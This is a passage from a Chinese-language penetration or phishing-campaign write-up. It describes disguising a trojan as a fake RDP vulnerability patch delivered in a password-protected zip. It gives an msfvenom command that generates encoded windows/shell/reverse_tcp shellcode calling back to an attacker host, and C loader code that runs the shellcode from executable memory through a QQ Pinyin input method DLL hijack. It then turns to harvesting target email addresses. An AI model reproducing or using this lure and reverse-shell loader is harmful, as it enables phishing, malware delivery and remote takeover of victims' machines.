 解压“上海xxxRDP漏洞补丁.zip”,解压密码：xxx123，解压成功后，双击运行“RDP-VulnPatch.exe”即可：
 
修复成功会提示“修复漏洞成功！” 
 
上海xxx

二零一九年五月二十日

其中解压密码也是目标常见的弱口令。

## 0x04 制作木马

通过手工制作一个`Windows/shell/reverse_tcp`的木马DLL，先获得Msfvenom生成的shellcode。

```bash
$ /opt/metasploit-framework/bin/msfvenom -p windows/shell/reverse_tcp LHOST=xxxx LPORT=8899 -f c -e x86/shikata_ga_nai -i 20
```

![2019-05-21-17-39-23](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/99188322754a3142bf9c70acd32f6fbc.png)


用之前的QQ拼音输入法DLL劫持漏洞，来一次白利用。


```c
VOID shdjshjdhsjhdjshdjs() {
	
		unsigned char buff[] =
		"\xbe\x65\x43\x60\x4a\xdb\xcd\xd9\x74\x24\xf4\x58\x31\xc9\xb1"
		"\xd6\x31\....省略部分.......7\xe7\xc3\x2a\xcd\x23\xb8\x07\x0b\x04\x54\x17"
		"\xc1\x57\x63\x4c\x60\xa7\x7a\xa7\x54\xe7\xc2";

	PVOID p = NULL;
	if ((p = VirtualAlloc(NULL, sizeof(buff), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE)) == NULL) {
		printf("error");
	}
		
	if (!(CopyMemory(p, buff, sizeof(buff)))) {
		printf("error");
	}
	
	CODE code = (CODE)p;
	code();
}

```

参考文章：https://payloads.online/archivers/2018-06-09/1

## 0x05 搜集邮箱

在百度文库搜索到来一些：

图就不贴了，打码麻烦。。。
